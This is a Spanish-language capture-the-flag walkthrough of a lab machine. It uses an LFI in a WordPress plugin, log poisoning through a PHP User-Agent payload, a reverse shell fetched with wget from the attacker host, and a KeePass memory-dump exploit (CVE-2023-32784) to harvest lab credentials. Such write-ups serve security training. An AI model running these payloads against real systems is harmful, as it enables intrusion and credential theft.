 Hacemos el escaneo con nmap:
![[Pasted image 20240124095627.png]]
Al estar abierto el puerto 111, vemos 3 monturas en el sistema:
![[Pasted image 20240124095738.png]]
Nos traemos cada una de estas monturas con el comando mount:
```bash
mount 10.10.10.5:/shared/tmp/ /mnt/montura/
mount 10.10.10.5:/shared/j4ckie/ /mnt/montura_condor/
mount 10.10.10.5:/shared/condor/ /mnt/montura/
```
![[Pasted image 20240124100215.png]]
![[Pasted image 20240124100337.png]]
![[Pasted image 20240124100408.png]]
En esta parte no encontramos nada, pero si hacemos fuzzing web, nos encontramos con un wordpress:
![[Pasted image 20240124100732.png]]
Al ponerlo en el navegador nos da un error, pero sí nos reporta un dominio shared.nyx:
![[Pasted image 20240124100803.png]]
Lo añadimos al fichero /hosts:
![[Pasted image 20240124100837.png]]
Y nos funciona:
![[Pasted image 20240124100852.png]]
Tras hacer una enumeración agresiva de plugins con wpscan, vemos un plugin algo desactualizado:
```bash
wpscan --url http://shared.nyx/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240124101512.png]]
El cual vemos que en principio es vulnerable a un LFI:
![[Pasted image 20240124101527.png]]
Y dentro de este primer enlace nos encontramos con unas instrucciones de cómo explotar el LFI:
![[Pasted image 20240124101747.png]]
Lo probamos y funciona:
```bash
http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
![[Pasted image 20240124101758.png]]
Probamos la ruta para explotar un log poisoning y funciona:
```bash
http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log
```
![[Pasted image 20240124102917.png]]
Lanzamos un comando con curl, por ejemplo whoami:
```bash
curl -s -X GET 'http://shared.nyx/wordpress/' -H "User-Agent: <?php system('whoami'); ?>"
```
Y dentro de los logs vemos que se ha ejecutado el comando:
![[Pasted image 20240124103808.png]]
Nos creamos una reverse shell y la compartimos con la máquina víctima:
![[Pasted image 20240124104315.png]]
```bash
curl -s -X GET 'http://shared.nyx/wordpress/' -H "User-Agent: <?php system('wget 10.10.10.7/shell.sh'); ?>"

curl -s -X GET 'http://shared.nyx/wordpress/' -H "User-Agent: <?php system('chmod 777 shell.sh'); ?>"

curl -s -X GET 'http://shared.nyx/wordpress/' -H "User-Agent: <?php system('bash shell.sh'); ?>"
```
Y estamos dentro:
![[Pasted image 20240124104511.png]]
Y dentro del directorio de wordpress, tenemos el archivo de wp.config.php, donde se guardan credenciales de bases de datos:
![[Pasted image 20240124110024.png]]
![[Pasted image 20240124110040.png]]
```sql
wordpress:R9o17ONkbFk2BrRHG7zY
```
Accedemos a la base de datos:
```bash
mysql -u wordpress -pR9o17ONkbFk2BrRHG7z
```
![[Pasted image 20240124110557.png]]
Y tenemos una tabla de wp-users donde tenemos credenciales:
```bash
admin:$P$BEFipQ4xz8hMCnY7kD7lwLTfrDENmN/
```
![[Pasted image 20240124110652.png]]
Pero por aquí no viene la intrusión, aunque si vamos al directorio /var/www/html/wordpress/backups nos encontramos con un archivo .zip, que debemos descomprimir y nos dará una base de datos de keepass:
```bash
unzip cp-sharedbbdd.zip
```
![[Pasted image 20240125124408.png]]
Nos compartimos esta base de datos y el archivo .tmp a nuestra máquina atacante:
![[Pasted image 20240125124914.png]]
Al tener el keepass y el .dmp, podemos explotar una vulnerabilidad, la CVE-2023-32784, donde podemos obtener la PoC del siguiente repositorio de github:
```bash
https://github.com/z-jxy/keepass_dump
```
![[Pasted image 20240125125649.png]]
Y ejecutamos el siguiente comando:
```bash
python3 keepass_dump.py -f KeePass.DMP --skip --debug
```
![[Pasted image 20240125125936.png]]
La contraseña sería Shared123%, por lo que abrimos la base de datos:
![[Pasted image 20240125130140.png]]
Y dentro de esta base de datos obtenemos las siguientes credenciales:
```bash
condor:OjNIhkKb2tUnmChoFnJI
j4ckie:p8Ucx8ab2N8AIfmP83E8
jackondor:7iwylOTHddtPakkgTJV9
```
La contraseña de jackondor vemos que funciona:
![[Pasted image 20240125130336.png]]
